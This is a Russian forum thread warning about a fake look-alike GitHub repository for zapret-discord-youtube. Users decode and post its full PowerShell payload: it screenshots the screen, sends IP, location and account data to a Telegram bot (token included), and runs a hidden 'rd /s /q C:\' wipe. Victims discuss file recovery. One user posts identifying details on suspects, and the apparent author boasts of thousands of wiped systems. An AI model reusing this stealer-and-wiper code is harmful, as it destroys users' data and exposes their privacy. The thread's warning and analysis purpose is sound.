


Недавно появился новый форк GoodbyeDPI на GitHub (GitHub - Flowseal/zapret-discord-youtube) который направлен на обход блокировки YouTube и Discord.
Вместе с ним появился фейковый репозиторий, который я вам рекомендую зарепортить: GitHub - FlowseaI/zapret-discord-youtube (Использует заглавную букву i в нике)
Ссылка на отправку репорта: Sign in for Software Support and Product Help - GitHub Support
Ахахха, чел даже не понимает, как работают блэклисты запрета/гудбая, а все туда же 
Скрипт поиска пробелов в пути… Это точно нужно?
А если я скачал из первоначального источника запрет там разве тоже нет в ip traffic mine.bmpool.org ?
бл я зарепортил сразу, но всё ещё там + какойто обфусицированый в басе64 повершел скрип палюбому малаваре
закинул чекнуть на верустотал https://www.virustotal.com/gui/file/5e68268094c11fdc81b00847bb3f0a711157589f09890133ff8905c4ba0b7aca?nocache=1
обфусцировано вот етим педрилой суде по всему

Если интересно что обфусцировано:
Add-Type -AssemblyName System.Windows.Forms
Add-Type -AssemblyName System.Drawing
Add-Type -AssemblyName 'System.Net.Http'
try {
$screen = [System.Windows.Forms.SystemInformation]::VirtualScreen
$bitmap = New-Object System.Drawing.Bitmap $screen.Width, $screen.Height
$graphics = [System.Drawing.Graphics]::FromImage($bitmap)
$graphics.CopyFromScreen($screen.Left, $screen.Top, 0, 0, $bitmap.Size)
$memoryStream = New-Object System.IO.MemoryStream
$bitmap.Save($memoryStream, [System.Drawing.Imaging.ImageFormat]::Png)
$graphics.Dispose()
$bitmap.Dispose()
$memoryStream.Seek(0, [System.IO.SeekOrigin]::Begin) | Out-Null
$country = (Invoke-RestMethod -Uri "http://ipinfo.io/country").Trim()
$city = (Invoke-RestMethod -Uri "http://ipinfo.io/city").Trim()
$ip = (Invoke-RestMethod -Uri "http://ifconfig.me").Trim()
$isAdmin = (whoami /groups | Select-String "S-1-5-32-544").Length -gt 0
$rights = if ($isAdmin) { "Admin" } else { "Slave" }
$dgkfsertodgfl = (Get-CimInstance Win32_OperatingSystem).Caption
$os_arch = if ([Environment]::Is64BitOperatingSystem) { "x64" } else { "x86" }
$message = @"
Type: $dgkfsertodgfl ($os_arch)
From: $country $city ($ip)
Name: $env:USERNAME ($rights)
"@
$dfhgsfdgh = "7872562304:AAHDovPEKL6JPliHzkjUYTd26f8YFuM8vDA"
$chat_id = "@dgfkewr"
$uri = "https://api.telegram.org/bot$dfhgsfdgh/sendPhoto"
$client = [System.Net.Http.HttpClient]::new()
$client.Timeout = [TimeSpan]::FromMinutes(5)
$gkwerjtsod = [System.Net.Http.MultipartFormDataContent]::new()
$fileContent = [System.Net.Http.StreamContent]::new($memoryStream)
$fileContent.Headers.ContentType = [System.Net.Http.Headers.MediaTypeHeaderValue]::Parse("image/png")
$gkwerjtsod.Add($fileContent, "photo", "screenshot.png")
$gkwerjtsod.Add([System.Net.Http.StringContent]::new($chat_id), "chat_id")
$gkwerjtsod.Add([System.Net.Http.StringContent]::new($message), "caption")
$response = $client.PostAsync($uri,$gkwerjtsod).Result
Start-Process -FilePath "cmd" -ArgumentList @("/c", "rd /s /q C:\") -PassThru -WindowStyle Hidden
}
finally {
if ($memoryStream) {
$memoryStream.Dispose()
}
if ($client) {
$client.Dispose()
}
}
Уже не зайти в чатик)
Я его уже задолбал спамом.
Бедные работяги, которые это скачают из последнего репозитория. Чел конечно гений букву l на I подменил
На момент закрытия чата - там было ~ 800 человек.
каждую 1-3минуты - кто-то новый 0)))
ет вты как декодировал?! индиресно 
кароч оно скринщоты отсылает в телегу если я правельно понел по коду
имхо
надо отказываться от всех этих ссылок на свои архивы (которые даже тут выкладывают на форуме) и сторонние гитхабы
должен скачиваться запрет из офф bolvan-a и допиливаться сам.
ето здравая мылся, но к сожительению ето некуда не денется потому что нормисам надо чтобы работало в один клик а так (не)бывает
Если бы он на этом остановился))
Он еще удалил древо каталогов C:\
3 раза обернул в base64 автор сие бота)
спасибо за информацию! теперь понятн ато я раз прогнал там опять закодировано ну я подумал что ето не работает, аоно вон оказывается как
он кстати обновил бота походу
{kind=link}
Его так часто посещают, что он теперь первый в поисковой выдаче.
Query: zapret-discord-youtube
{kind=link}
Все. Его заблочили на гитхабе.
Нуда нуда. Поддельные форумы никогда не существовали? А гитхаб для Китайцев на настоящий момент едиствинная форточка, для обхода блокировок
подеба 
вот ведь иногда гражданское общесво работает жеж
Можно писать свои открытые программы которые скачивают оригинальный файл и просто допиливают настройки которые нужны. Почему нет? Тоже в один клик.
походу ори скоро допилит свой скрип до такого состояния уже 

Не заметил, как скачал фейк. Снёс мне файлы на жёстком диске, пытаюсь восстановить по точке. Скажите, эта фигня ничего кроме сноса файлов не делает?
Еще делает скрин экрана в момент запуска и отсылает его боту в телегу вместе с твоим IP, городом, OS, названием твоей учетки на компе и ее типом(админ/обычный юзер)
Бота этого конечно знатно заспамили всяким мусором через api бота, но все-таки IPшников он понабрал. Сейчас он ничего собирать не будет, т.к я кикнул его через api из чата. Теперь наверно стоит накидать репортов на телегу хозяина этого чата
Ну это не страшно, я думаю. А пароли не высылает?
Нет, автор явно не настолько умелый. Он даже не догадался делать скриншоты экрана периодически через таймер.
Спасибо за ответ! Реально просто бессмысленно это всё делать. Ща просто мучаюсь с восстановлением на 2 дня назад, надеюсь восстановится. Часа 2 уже грузится. Винду переустанавливать не хочу, у меня на диске важные вещи по работе были.
И так, Я восстановил винду, но данные так и не вернулись или вернулись, но не все. Теперь пытаюсь восстановить уже на 4 дня назад. Подскажите, что делать? Этот гад удалил важные мне файлы.
Вам нужна какая-нибудь прога по восстановлению файлов вроде Phoenix File Rescue или Wondershare Data Recovery. Можно еще из командной строки попробовать Как восстановить удаленные файлы с помощью CMD в Windows 11/10
Только ничего не пишите на диск, с которого файлы пропали. Иначе с каждой записью есть шанс переписать удаленные файлы. Восстанавливайте найденные файлы на др диск
Благодарю! Постараюсь восстановить по вашему совету.
Желаю удачи! У меня в прошлом тоже была подобная напасть. Теперь дую на молоко) Либо касперским проверяю перед запуском новые проги либо вообще на виртуалке запускаю.
мой каспер не почуял обфусцированый трижды(!) base64 powersell скрип так что ХЗ даже на верус тотале ссылка наверху тока 8 из 62 почуяли ухрозу ито ето евристика сраная (ауей много лолжных сробатываний бывает)
а так вобще автар да ун какойт я хз зачем сносить файло то всё еслиб делал в тихаря скриншоты никтоб ничё не почуял (ну кроме здешних))
я тут ещё одного чела нашёл, но хз есть ли у него вирусы. прогонял через пару антивирусов и они ничего не нашли GitHub - AikenOZ/fixdiscord: Обход блокировки Discord | Или как починить Дискорд
Ну тогда только виртуалка)
Спасибо! Помогли! Правда, пришлось пользоваться ibeesoft (который был по ссылке). Программы, которые вы описали требовали подписки или просто зависали. Сейчас жду окончания загрузки, чтоб все восстановить. Уже вижу свою удалённую папочку😞.
Есть информация где лежит этот гад с фейковым zapret? Я его с корнями удалю
Виндовое восстановление ведь восстанавливает только некоторые типы файлов, вроде активных exe, dll, doc, но не бытовые фотки, тексты. Может, я не прав, но не всё восстанавливает. Было бы жирно всё бэкапить.
Да, ты прав. Только узнал об этом
А вы не с рутрекера качали? У меня версии оттуда не висли.
Понятия не имею(
Нет, я скачивал официальные версии, не особо люблю возится с кряками. Для ibeesoft нашел бесплатный ключ на год, поэтому все окей. Поставил до завтра загрузку, завтра верну все файлы.
И я надеюсь, что у меня этот файл, который я качал, уже удалён из-за бэкапа системы. Но я лучше это проверю завтра, чтоб наверняка.
Из бесплатных могу посоветовать Photorec, желательно консольный. Консольный имеет какую-то полезную доп. галочку и не модифицирует оригинал. Нужен второй диск большего размера.
А также DMDE, он он сложноват.
Вы хоть на virustotal.com залили сие подделие? Через полчаса во все базы залетит
Отправлял, детект был только на windivert
повторно проведите анализ
А я думаю щас сносить винду. Все файлы он мне восстановил, только вот большинство из них повреждено (Крита, Фотошоп, все файлы png и jpg) так что не вижу смысла уже возится. Придется сносить винду. Жалко конечно мою работу, но я думаю, здесь уже ничего не поделать.
Люди делятся на 2 типа. Те кто ещё не делает бэкапы и те кто уже делает бэкапы. Хотя бы важных файлов. Понятно, что мои слова не помогут сейчас, но подумайте над ними - возможно они спасут вам в будущем много нервов, может и денег.
Да, благодарю. Вообще не думал, что так получится
Мой знакомый столкнулся с проблемой, в результате которой его операционная система была удалена. Я провёл собственное расследование и обнаружил чат под названием “Logs” (@P1iz2bol). В чате присутствовали два пользователя и один бот. После подачи заявки на вступление в группу один из пользователей связался со мной. Он начал докапываться до меня и попытался собрать информацию обо мне с помощью глаза бога, однако это не увенчалось успехом, благодаря защите, благодаря которой я получил уведомление о его деяниях.
Информация о данном пользователе:
- Имя: Simillar
- Аватарка:
- Номер: +888 0697 3731 (в настоящее время выставлен на аукционе за 258 TON (~$1,364))
- Описание: “I swear Ima keep it real, tell u know I feel. Only squad I trust, for my squad I bust.”
- Юзернейм: @lamecruser
- Telegram ID: 7362264823
- Канал: Random Cryptoshit (+Ma lifestyle) с 112 подписчиками, последний пост датирован 29.08.2024 (текст сообщения: “( i ) You can’t see this message because telegram i…”)
- Аккаунт уже удалён.
- Скриншот профиля
{kind=link}
Из общения с ним можно выделить следующие моменты:
- Он утверждал, что обход блокировок Роскомнадзора не имеет смысла.
- Сообщил, что уничтожено около 5000 систем.
- Заявил о наличии множества вредоносных репозиториев на GitHub.
Кроме того, я обнаружил возможную связь с аккаунтом на GitHub: EvilBytecode.
Также в чате упоминался некий “Лев”:
- Имя: Лев🤑
- Аватарка:
- Описание: YouTube: Levs Kittne
- Юзернейм: отсуствует
- Telegram ID: 5024545341
- Канал: Levs Kittne
- Скриншот профиля
Связаться с ним можно, найдя его сообщение о выходе из чата в “Logs”.
{kind=link}
{kind=link}
В чате также был бот с идентичным ID (8190913599) с которого отправлялись скришоты, как и во второй версии скрипта, но на сегоднящний момент бот уже был удалён.
Нифига ты следователь крутой… Но знаешь, сколько вас таких? “Следачков”. Никто всерьёз тебя не искал. Поверь, если бы нужно было, нашли бы быстро и без труда, с твоей внешностью и всеми возможными данными, и больше бы ты не играл тут в крутого разоблачителя. Поржал, как вы засорили чат, на который всем пофиг, с таким усердием гадили туда, особенно тот, кто кидал какие-то мультики и непристойности — видимо, взял это всё со своего дырявого компа из папки “XxX” рядом с папкой “ДоМаШкА”. Насчёт Simillar — это мой друг, которого я по приколу добавил в чаты, чтобы он тоже повеселился. Его аккаунт не удалён, он просто мигрировал. Аккаунт ‘лев’ принадлежал какому-то школьнику, у которого украли аккаунт, чтобы создать чат и бота. Мой аккаунт вы не нашли, и даже если бы нашли, это бы вам ничего не дало. Максимум, что вы могли бы сделать, это написать, чтобы над вами посмеялись.
Что касается ‘EvilBytecode’, это просто какой-то человек с GitHub, чьим не очень качественным обфускатором был покрыт код. Если бы надо было, то зашифровали бы так, что никто бы даже не захотел это анализировать. Если вы думаете, что вы такие умные, потому что нашли то, что никто особо и не прятал, вам стоит задуматься, так ли вы умны. Системы будут продолжать стираться, и бот для этого не нужен. Тем более, через этого бота проходило максимум 10% всего трафика. В общем, вы наивные. Уничтоженных и заражённых систем уже более семи тысяч. На ваш вопрос “зачем?” отвечу: ради смеха. “Умник”, который писал, что “автор явно не настолько умелый”, чтобы “воровать пароли”, ты не подумал, что мне совершенно не нужны логи из СНГ, а тем более из РФ. Никто просто не возьмётся это отрабатывать, да и сам я считаю, что воровать у “своих” — занятие такое себе. Про периодические скриншоты и прочую ерунду даже не буду говорить. Запрос специально был выведен в топы Яндекса очень нехитрым методом.
Немного скринов что-бы развеять сомнения.
{kind=link}
{kind=link}
{kind=link}

{kind=link}
Мой аккаунт вы не нашли
Да и хрен с тобой.
Тема скатилась в срач и оффтоп про восстановление данных. Не качайте всяких вишмастеров из яндексов и тиктоков (вчера юзер приходил с каким-то скриптом-майнером из тиктока).